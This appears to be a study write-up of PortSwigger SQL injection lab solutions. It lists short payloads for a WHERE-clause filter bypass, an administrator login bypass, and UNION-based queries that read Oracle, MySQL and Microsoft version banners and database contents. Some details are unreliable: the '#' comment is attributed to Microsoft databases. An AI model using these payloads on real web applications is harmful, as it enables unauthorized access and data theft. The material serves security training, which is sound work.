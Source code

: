 ## Links:
1. https://portswigger.net/web-security/sql-injection 
   a. https://portswigger.net/web-security/sql-injection/union-attacks
   b. https://portswigger.net/web-security/sql-injection/blind
   
2. https://portswigger.net/web-security/sql-injection/cheat-sheet

## **1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data**
SQL injection attack that causes the application to display one or more unreleased products.

	SELECT * FROM products WHERE category = ' OR 1=1--

```
	.../filter?category= ' OR 1=1--
```


## **2. SQL injection vulnerability allowing login bypass**
SQL injection attack that logs in to the application as the `administrator` user.

```
.../my-account?id=administrator'--
```


## **3. SQL injection querying the database type and version on Oracle**
 ```
 'UNION SELECT'a','b' FROM dual--
```

 Display the database version:
```
 'UNION SELECT 'a', banner FROM v$version--
```


## **4. SQL injection attack, querying the database type and version on MySQL and Microsoft**
In Microsoft database we can payload without to specify FROM table, instead we can comment with "#" right after selected columns:
 ```
 'UNION SELECT'a','b'#
```

 Display the database version:
```
 'UNION SELECT 'a', @@version#
 ```


## **5. SQL injection attack, listing the database contents on non-Oracle databases**
```
' UNION SELECT 'abc','def'--
```
